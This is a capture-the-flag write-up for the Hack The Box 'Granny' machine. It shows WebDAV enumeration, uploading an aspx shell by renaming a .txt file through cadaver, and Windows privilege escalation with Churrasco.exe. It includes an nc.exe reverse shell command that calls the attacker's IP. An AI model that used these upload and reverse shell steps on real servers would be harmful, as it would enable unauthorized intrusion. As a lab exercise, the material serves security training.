







# Granny

### Machine Info


#### Nmap


##### HTTP (Port 80)

###### Gobuster:
Checked `gobuster` but nothing.




From the `nmap` scan, I can see that webdav is enabled on the web server and command `put` and `move` are enabled for public. The `gobuster` shows that there is a directory `aspnet_client`. If I can upload malicious code with `aspx` format, I can get a reverse shell.




As we can see from the result of `davtest`, we cannot upload `asp` or `aspx` format. But we can upload `txt`, `html`, or `php` and after that we can change our format to `aspx`.

#### Exploit

First Generate the shellcode with `txt` format:


Then upload to server by using `cadaver`:
```
❯ cadaver 10.10.10.15  
dav:/> put shell.txt
Uploading shell.txt to `/shell.txt':
Progress: [=============================>] 100.0% of 2736 bytes succeeded.
dav:/> mv shell.txt shell.aspx
Moving `/shell.txt' to `/shell.aspx':  succeeded.
```

Now access to `shell.aspx` with web browser and from `nc` listener:



#### Privilege Escalation

Copy `systeminfo` from windows machine to attacking machine and run `windows-exploit-suggester.py `.

```
❯ python windows-exploit-suggester.py -d 2020-02-20-mssb.xls -i systeminfo.txt    
[*] initiating winsploit version 3.3...                                           
[*] database file detected as xls or xlsx based on extension                                                      
[*] attempting to read from the systeminfo input file                                                                                                                                                                                                   
[+] systeminfo input file read successfully (ascii)                                                                         
[*] querying database file for potential vulnerabilities                                                  
[*] comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
[*] there are now 356 remaining vulns                                                     
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin     
[+] windows version identified as 'Windows 2003 SP2 32-bit'

-------------------- SIP ------------------------

[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical                                                                                                                                       
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC                                                                                                                            
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC                                                                                                                                       
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC                                                                                                                                  
[*]                                                                                                                                                                                                                                                      
[E] MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important                                                                                                                                                           
[*]   http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC          

____________________ SIP ________________________    

```

Based on the result, I tried manual exploit such as `MS15-01`, `MS14-070`, `MS14-058` and some more but failed. After that I tried `Churrasco.exe` which is `Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation ` and it worked.


Exploit-db source code: []()https://www.exploit-db.com/exploits/6705

In Kali Linux, there is a compiled version. And I also copied `nc.exe` for reverse shell.
```
~/htb/granny root@kali                                                                                                     │churrasco.exe -d "nc.exe 10.10.14.37 5555 -e cmd.exe"
❯ cp /usr/share/sqlninja/apps/churrasco.exe ./   
❯ cp /usr/share/windows-binaries/nc.exe ./
```

Like we uploaded our `shell.aspx` by using `cadaver`, we use same method to transfer 2 files.

```
❯ cadaver 10.10.10.15
dav:/> put nc.exe.txt
Uploading nc.exe.txt to `/nc.exe.txt':
Progress: [=============================>] 100.0% of 59392 bytes succeeded.

dav:/> mv nc.exe.txt nc.exe
Moving `/nc.exe.txt' to `/nc.exe':  succeeded.

dav:/> put churrasco.exe.txt
Uploading churrasco.exe.txt to `/churrasco.exe.txt':
Progress: [=============================>] 100.0% of 31232 bytes succeeded.

dav:/> mv churrasco.exe.txt churrasco.exe
Moving `/churrasco.exe.txt' to `/churrasco.exe':  succeeded.
```

##### Exploit
Execute `Churrasco.exe` with command:


`nc` listener on attacking side:


And you can get `root.txt` :)
